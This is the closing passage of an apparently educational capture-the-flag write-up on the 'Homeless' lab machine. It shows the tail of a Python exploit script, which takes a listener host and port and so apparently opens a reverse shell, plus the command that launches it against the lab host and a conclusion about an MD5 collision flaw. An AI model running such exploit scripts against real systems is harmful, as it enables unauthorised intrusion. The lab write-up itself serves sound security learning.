 ```python
    parser.add_argument(
        '-t', '--target', required=True, type=str, default=None, help='Homeless IP or domain')

    args = parser.parse_args()
    exploit(args.target, args.lhost, args.lport, proxy(args.proxy))

if __name__ == '__main__':
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    main()
```

Launch like:
```bash
python exploit.py -t homeless.local -H 192.168.56.1 -P 444 -x
```

#### Conclusion

Homeless is a very nice machine when owned as "black-box", however, the small number of critical files to analyse, and the lack of complexity within the code, made it not enough of a challenge comparing it to the OSWE. The only really interesting piece of this box is the md5 collision vulnerability. If you're interested, I would advise getting more information on [Marc Stevens](https://marc-stevens.nl/research/) page and his [Hashclash](https://github.com/cr-marcstevens/hashclash) project.
